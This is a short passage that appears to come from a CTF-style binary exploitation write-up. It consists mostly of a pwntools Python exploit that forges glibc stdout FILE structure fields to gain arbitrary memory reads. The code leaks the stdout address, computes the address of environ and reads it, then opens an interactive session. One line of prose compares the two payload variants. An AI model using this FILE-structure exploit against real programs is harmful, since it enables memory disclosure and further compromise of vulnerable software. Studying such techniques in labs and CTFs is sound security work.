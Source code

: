 ```python
	payload = p64(0x00000000fbad2887) # flag
	payload += p64(0) # read_ptr
	payload += p64(addr) # read_end
	payload += p64(0) # read_base
	payload += p64(addr) # write_base
	payload += p64(addr + size) # write_ptr
	payload += p64(0) # write_end
	payload += p64(0) # buf_base
	payload += p64(size) # buf_end
	write(stdout, payload)

p.recvuntil(b"leak: ")
stdout = int(p.recvline(), 16)

environ = stdout + 0x6798 # calculate offset by yourself

arbread(environ, 8)
arbread_02(environ, 8)

p.interactive()
```

You can notice, i wrote 2 different payload, and yes they give same results:

![](pics/img06.png)
